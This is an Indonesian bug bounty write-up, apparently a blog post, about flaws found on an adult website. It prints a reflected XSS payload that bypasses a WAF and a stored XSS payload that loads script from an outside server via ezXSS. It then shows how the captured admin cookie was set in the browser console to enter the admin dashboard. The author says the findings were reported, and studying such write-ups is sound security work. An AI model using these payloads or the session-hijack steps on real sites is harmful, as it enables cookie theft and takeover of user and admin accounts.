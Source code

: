 ```yaml
---
layout: post
title: Mengintip Dashboard Admin Situs Haram
categories: [Bug Bounty Write-Up]
author: Akbar Kustirama
---
```


Kegiatan ini berawal dari salah satu teman yang memberi informasi bahwa dia baru saja mendapatkan _bounty_ dari salah satu situs haram yang ada di luar sana. Singkat cerita, saya mencoba mencari peruntungan serupa dengan mencari situs sejenis di pencarian Google dengan harapan menemukan situs yang cukup "umum" yang secara fitur punya banyak bagian yang bisa saya coba untuk masuki.

Untuk mempermudah dan agar saya tidak perlu menyebut nama situsnya, mari kita sebut situs ini sebagai `situsharam.com`.

<img src="https://infosec.zerobyte.id/
          screenshot-situs-haram.png" alt="Mengintip Dashboard Admin Situs Haram">

Setelah mencoba beberapa fitur seperti list _actors/actress_, kategori, pencarian, serta fitur yang membutuhkan autentikasi pengguna seperti _edit profile_, _like_, _comment_ dan semacamnya, saya menemukan beberapa celah yang detailnya akan saya jelaskan di bawah ini.

## Reflected XSS pada Halaman Pencarian
Celah pertama adalah _Reflected XSS_ yang saya temukan di halaman pencarian. Payload yang saya gunakan adalah: 

```html
asd"><ScRiPt%20>alert(1);<%2fscript>
```

Saat mencoba, saya menemukan bahwa karakter `/` diblok oleh WAF sehingga saya coba untuk mem-bypass rule tersebut menggunakan karakter `%2f`. Dari temuan ini saya bisa menggunakan _payload_ yang sudah disisipi _script_ untuk mencuri `cookie` pengguna.

Pada kasus di dunia nyata, seorang penyerang akan menyisipkan javascript yang bertujuan untuk mencuri _cookie_ pengguna dan beberapa data lain, lalu mengirimnya pada server penyerang. 

Untuk melakukan ini, penyerang perlu mengirim URL (yang sudah disisipi _payload_) ke pengguna lain atau pemilik/admin dari situs ini. Lalu penyerang akan menggunakan data tersebut untuk masuk di situs target tanpa menggunakan _username_ dan _password_.

<img src="https://infosec.zerobyte.id/images/screenshot-reflected-xss-pencarian.jpg" alt="Mengintip Dashboard Admin Situs Haram">

## Stored XSS pada Profile
Saya rasa kebanyakan _bug bounty hunter_ (termasuk saya) akan mencoba memasukkan _payload_ ke setiap form yang kami temui. Dengan modal "penting yakin", saya mengisi `"><h1>asdf</h1>"` pada kolom nama di halaman _Edit Profile_.

Setelah menyimpan perubahan tersebut, kode HTML yang saya sisipkan dibaca oleh situs sehingga menandakan adanya potensi untuk _Stored XSS_. 

<img src="https://infosec.zerobyte.id/images/screenshot-html-injection-profile.jpg">

Saya melanjutkan dengan memasukkan payload:

```html
"><script src=//x.serversaya.com></script><x="
```

- `">` = digunakan untuk keluar dari input form (```<input>```)
- `<script src=//x.serversaya.com></script>` = digunakan untuk memanggil script dari server saya (<a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a>)
- `<x="` = digunakan untuk membuka kembali hasil escape dari input form, sehingga tidak ada " type="text" dst seperti screenshot di atas

Setelah beberapa waktu menunggu, saya mendapat notifikasi bahwa payload di atas ditemukan di domain lain (cp.situslain.com) yang mana adalah dashboard admin dari `situsharam.com`. Berikut detail laporan dari <a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a> saat payload saya ditemukan di dashboard admin (klik gambar untuk memperbesar).

<a href="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" target="_blank"><img src="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram"></a>

Pada tangkapan layar di atas, terlihat ada `cookie` admin yang tertangkap oleh kode javascript yang saya panggil. Saya akan mencoba menggunakan Cookie tersebut untuk masuk ke `https://cp.situslain.com/user/edit/{userid}`.

Ketika mengakses `https://cp.situslain.com/user/edit/{userid}`, saya dialihkan ke halaman login `https://cp.situslain.com/user/login`. 

<img src="https://infosec.zerobyte.id/images/screenshot-login-page-set-cookie.jpg" alt="Mengintip Dashboard Admin Situs Haram">

Selanjutnya saya mencoba _set cookie_ manual melalui `Console` pada `inspect element` dengan cara memasukkan kode javascript. Cookie ini berasal dari laporan ezXSS di atas:

```javascript
document.cookie = 'PHPSESSID=lot4#######################';
````

Setelah Cookie di-set, saya mencoba mengulang lagi dan akhirnya berhasil membuka halaman `https://cp.situslain.com/user/edit/{userid}`.

<img src="https://infosec.zerobyte.id/images/screenshot-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram">

**Disclaimer**  
_Level_ dan _Credit_ yang tertera pada screenshot adalah pemberian admin (apresiasi, menurut istilah sekarang) setelah saya melaporkan temuan ini. Proses pelaporan tidak akan saya jelaskan di sini, hehe.

Sekian artikel "Mengintip Dashboard Admin Situs Haram". Semoga ada yang bisa dipelajari dari artikel ini, selain akhirnya kita tahu bentuk halaman dashboard admin situs haram. Sampai jumpa di artikel selanjutnya.

